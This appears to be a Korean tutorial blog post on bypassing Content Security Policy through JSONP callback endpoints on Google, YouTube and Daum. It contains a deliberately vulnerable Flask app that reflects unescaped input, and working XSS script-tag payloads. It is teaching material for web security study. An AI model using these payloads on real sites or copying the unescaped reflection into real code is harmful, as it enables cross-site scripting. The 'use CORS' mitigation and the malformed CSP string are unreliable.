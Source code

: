 ```yaml
---
title: CSP Bypass with JSONP
date: 2023-12-07
author: glasses96
categories: [WEB]
tags: [CSP Bypass, JSONP]
pin: true
math: true
mermaid: true
---
```


> **CSP에 script-src에 JSONP API를 지원하는 서버가 있을 경우 이를 이용하여 XSS를 하는 방법을 알아봅시다.**  
{: .prompt-info }

## What is JSONP
JSONP는 SOP(Same Origin Policy)정책을 우회하기 위해 사용하는 방법입니다.  
`JSONP는 HTML 문서의 script 태그로 다른 도메인을 요청 할 시 SOP 정책이 적용되지 않는 방식`을 이용하여 동작합니다.  
script 태그는 src 속성 값을 호출한 결과를 javascript로 불러와서 즉시 실행시키는 기능입니다.

### Attack Point

만약 CSP에서 허용한 출처가 JSONP API를 지원한다면, `callback 파라미터에 원하는 스크립트`를 삽입하여 공격이 가능합니다.  
예를 들어 웹 페이지에서 *.google.com에서 온 출처만 허용한다고 가정해봅시다. 이 경우, 구글에서 JSONP API를 지원하는 서버를 찾아 callback에 원하는 스크립트를 삽입할 수 있습니다.  

예시 코드를 보면 CSP 적용되어 있어 text 변수에 스크립트 구문을 넣어도 CSP 떄문에 스크립트를 실행할 수 없습니다.
```py
#!/usr/bin/env python3
from flask import Flask, request

app = Flask(__name__)

@app.after_request
def add_header(response):
    global nonce

    csp = (
        "default-src 'self'; "
        "script-src 'self' *.google.com *.youtube.com; *.daum.net"
        "img-src 'self'; "
        "style-src 'self'; "
        "object-src 'none'; "
        "base-uri 'none';"
    )
    response.headers['Content-Security-Policy'] = csp
    return response


@app.route('/', methods=['GET'])
def index():
    text = request.args.get("text", "test")
    return f"<html><body>text : {text}</body></html>"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5555)

```

![스크립트 삽입 에러](/assets/post/51/1.png))

### Google Accounts
JSONP API를 지원하는 callback에 원하는 페이로드를 넣어서 XSS 동작이 가능합니다.
```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(`glasses96`);"></script>
```
![XSS_Google](/assets/post/51/2.png)

### youtube

```
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE%26format=json%26callback=alert(`glasses96`)";></script>
```
![XSS_Youtube](/assets/post/51/3.png)


### KaKao
단 daum.net의 경우 Reffer헤더가 `https://finance.daum.net/`이여야 동작합니다.  
아닌 경우 400 error가 발생합니다.  

Referer 헤더가 없는 경우
![NOT_XSS](/assets/post/51/4.png)


Referer 헤더가 있는 경우
![XSS KaKao](/assets/post/51/5.png)

## 대응방안
CORS 사용

## Next?
다음은 service worker를 이용하여 CSP를 우회시키는 방법에 대해서 알아보겠습니다.

## Reference
- https://learn.dreamhack.io/322
- https://lactea.kr/entry/ctf-%EB%AC%B8%EC%A0%9C%EB%A5%BC-%ED%86%B5%ED%95%B4-CSP-bypass-%EC%A0%95%EB%A6%AC%ED%95%98%EA%B8%B0